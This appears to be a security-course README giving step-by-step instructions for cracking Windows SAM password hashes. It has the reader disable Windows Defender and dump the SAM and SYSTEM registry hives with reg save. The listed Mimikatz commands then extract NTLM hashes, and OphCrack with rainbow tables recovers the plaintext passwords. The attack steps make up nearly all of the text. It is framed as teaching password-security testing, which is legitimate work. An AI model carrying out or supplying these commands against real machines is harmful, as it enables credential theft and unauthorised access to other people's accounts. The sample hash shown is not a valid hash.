 # Crack SAM Hashed Password on a Windows System
The **S**ecurity **A**ccounts **M**anager **(SAM)** is a database file in the Microsoft Windows operating system that contains usernames and passwords.

The primary purpose of the SAM is to make the system more secure and protect from a data breach in case the system is stolen. The SAM is available in different versions of Windows, starting from Windows XP to Windows 11.

Password and user list can be found in the following registry key
    
    HKLM\SAM
    HKLM\SYSTEM

## Cracking Windows Password
### **Prerequisites**
 * The user must obtain a superuser privileges (see `privilege escalation attacks`)
 * Disable Windows Defender
 * Download the following software
   * [`Mimikatz`](https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810-2/mimikatz_trunk.zip)
   * [`OphCrack`](https://sourceforge.net/projects/ophcrack/files/ophcrack/3.8.0/ophcrack-3.8.0-bin.zip/download)
   * [`OphCrack Tables`](http://sourceforge.net/projects/ophcrack/files/tables/Vista%20proba%20free/vista_proba_free.zip/download)


### **Steps**
 1. Dump the SAM files

     1.1. Open a `PowerShell` as admin and execute the following commands

        reg save HKLM\SAM sam.bkp
        reg save HKLM\SYSTEM sys.bkp
 2. Extract hashes

    2.1. From the `PowerShell` as admin execute the following commands

        mimikatz.exe
        privilege::debug
        token::elevate
        log hash.log
        lsadump::sam sys.bkp sam.bkp
    
    2.2. Open file `hash.txt` and look for users you want to test password security
    
    2.3. Extract the following user informatiion
              
        Username
        User ID (optional)
        Hash NTLM
    
    2.4. Go to the `ophcrack/x64` folder
    
    2.5. Create a file named `users.txt` and paste the following information

        Username:User_ID::Hash_NTLM:::
    2.6. `users.txt` file example in which the `User_ID` field is empty

        francesco:::57158936eqke28fho38fuw74y9fwnplas:::

 3. Crack the password
 
    3.1. Start `ophcrack.exe` as admin

    3.2. Click on `load --> PWDUMP` and select the `users.txt` file

    ![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/SAM%20Password%20Attack/1.ophcrack_load.png?raw=true)

    3.3. Click on `tables` and select the previously downloaded `vista probabilistic free` table **folder**
    
    ![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/SAM%20Password%20Attack/2.ophcrack_table.png?raw=true)

    3.4. Click on `crack` and wait until the end

    ![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/SAM%20Password%20Attack/3.ophcrack_crack.png?raw=true)